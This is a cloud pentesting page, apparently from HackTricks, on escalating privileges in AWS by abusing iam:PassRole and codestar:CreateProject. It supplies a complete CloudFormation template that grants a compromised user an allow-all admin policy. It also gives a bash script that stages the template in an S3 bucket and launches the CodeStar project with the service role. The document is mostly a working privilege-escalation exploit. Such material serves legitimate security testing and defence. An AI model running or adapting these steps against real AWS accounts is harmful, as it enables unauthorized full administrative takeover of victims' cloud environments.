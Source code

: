 # iam:PassRole, codestar:CreateProject

{{#include ../../../../banners/hacktricks-training.md}}

With these permissions you can **abuse a codestar IAM Role** to perform **arbitrary actions** through a **cloudformation template**.

To exploit this you need to create a **S3 bucket that is accessible** from the attacked account. Upload a file called `toolchain.json` . This file should contain the **cloudformation template exploit**. The following one can be used to set a managed policy to a user under your control and **give it admin permissions**:

```json:toolchain.json
{
  "Resources": {
    "supercodestar": {
      "Type": "AWS::IAM::ManagedPolicy",
      "Properties": {
        "ManagedPolicyName": "CodeStar_supercodestar",
        "PolicyDocument": {
          "Version": "2012-10-17",
          "Statement": [
            {
              "Effect": "Allow",
              "Action": "*",
              "Resource": "*"
            }
          ]
        },
        "Users": ["<compromised username>"]
      }
    }
  }
}
```

Also **upload** this `empty zip` file to the **bucket**:

{% file src="../../../../images/empty.zip" %}

Remember that the **bucket with both files must be accessible by the victim account**.

With both things uploaded you can now proceed to the **exploitation** creating a **codestar** project:

```bash
PROJECT_NAME="supercodestar"

# Crecte the source JSON
## In this JSON the bucket and key (path) to the empry.zip file is used
SOURCE_CODE_PATH="/tmp/surce_code.json"
SOURCE_CODE="[
    {
        \"source\": {
            \"s3\": {
                \"bucketName\": \"privesc\",
                \"bucketKey\": \"empty.zip\"
            }
    },
        \"destination\": {
            \"codeCommit\": {
                \"name\": \"$PROJECT_NAME\"
            }
        }
    }
]"
printf "$SOURCE_CODE" > $SOURCE_CODE_PATH

# Create the toolchain JSON
## In this JSON the bucket and key (path) to the toolchain.json file is used
TOOLCHAIN_PATH="/tmp/tool_chain.json"
TOOLCHAIN="{
    \"source\": {
        \"s3\": {
            \"bucketName\": \"privesc\",
            \"bucketKey\": \"toolchain.json\"
        }
    },
    \"roleArn\": \"arn:aws:iam::947247140022:role/service-role/aws-codestar-service-role\"
}"
printf "$TOOLCHAIN" > $TOOLCHAIN_PATH

# Create the codestar project that will use the cloudformation epxloit to privesc
aws codestar create-project \
    --name $PROJECT_NAME \
    --id $PROJECT_NAME \
    --source-code file://$SOURCE_CODE_PATH \
    --toolchain file://$TOOLCHAIN_PATH
```

This exploit is based on the **Pacu exploit of these privileges**: [https://github.com/RhinoSecurityLabs/pacu/blob/2a0ce01f075541f7ccd9c44fcfc967cad994f9c9/pacu/modules/iam\_\_privesc_scan/main.py#L1997](https://github.com/RhinoSecurityLabs/pacu/blob/2a0ce01f075541f7ccd9c44fcfc967cad994f9c9/pacu/modules/iam__privesc_scan/main.py#L1997) On it you can find a variation to create an admin managed policy for a role instead of to a user.

{{#include ../../../../banners/hacktricks-training.md}}
